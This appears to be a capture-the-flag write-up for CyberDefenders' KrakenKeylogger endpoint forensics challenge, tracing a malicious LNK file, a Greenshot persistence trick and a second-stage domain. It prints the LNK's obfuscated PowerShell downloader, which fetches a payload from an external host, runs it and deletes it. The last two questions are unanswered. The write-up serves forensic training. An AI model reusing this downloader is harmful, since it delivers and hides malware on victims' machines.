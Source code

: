 # <a href="https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/">KrakenKeylogger</a>

**Platform:** CyberDefenders

**Scenario:** An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.

The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `challenge directory`

**Tools:** `FTK Imager` `Autopsy` `Registry Explorer` `MFTECmd.exe` `Timeline Explorer`

> [FTK Imager](https://www.exterro.com/digital-forensics-software/ftk-imager) is a free data preview and imaging tool used to acquire electronic evidence in a forensically sound manner by creating copies of computer data without making changes to the original evidence.

**Note:** In this walkthrough, we will use the FlareVM to analyze the provided files. If you have not set it up yet, I highly recommend following this [malware analysis lab](https://github.com/mmhgwyjs/malware-analysis-lab/blob/main/README.md) guide for assistance with your installation.

## **Preparations**


## **Questions and Answers**

***1. What is the the web messaging app the employee used to talk to the attacker?***

\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications

![image](https://github.com/user-attachments/assets/64055a1d-a3e2-470f-b86b-38cb65425219)

telegram

![image](https://github.com/user-attachments/assets/85866de4-c737-4544-8035-b49f340e375b)


***2. What is the password for the protected ZIP file sent by the attacker to the employee?***

@1122d

![image](https://github.com/user-attachments/assets/3edfae11-f421-45b7-aa33-9018fba648fc)

***3. What domain did the attacker use to download the second stage of the malware?***

masherofmasters.cyou

![image](https://github.com/user-attachments/assets/63bd4db8-6ac7-4f51-b051-c843fc46905d)

lecmd.exe -f templet.lnk

![image](https://github.com/user-attachments/assets/e8d8a357-e98e-4382-a054-f15be12b63e1)

```
Relative Path: ..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Arguments: -ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
Icon Location: C:\Windows\System32\imageres.dll
```

certutil -hashfile templet.lnk

![image](https://github.com/user-attachments/assets/d54c5405-fb24-4238-a75b-e59f122b2bdc)

8b49368462651afa265273151a1e7d4ea19e6347

![image](https://github.com/user-attachments/assets/f248f584-9520-4fd4-bc8d-371d1f3e4938)

masherofmasters.cyou

***4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?***

jlhgfjhdflghjhuhuh

![image](https://github.com/user-attachments/assets/04777a51-a34c-4585-96d2-f58e56faafc7)

Users/OMEN/AppData/Roaming/Greenshot/Greenshot.ini

https://lolapps-project.github.io/lolapps/Desktop/greenshot/

***5. What is the complete path of the malicious file that the attacker used to achieve persistence?***

C:\Users\OMEN\AppData\Local\Temp\templet.lnk

***6. What is the name of the application the attacker utilized for data exfiltration?***

***7. What is the IP address of the attacker?***
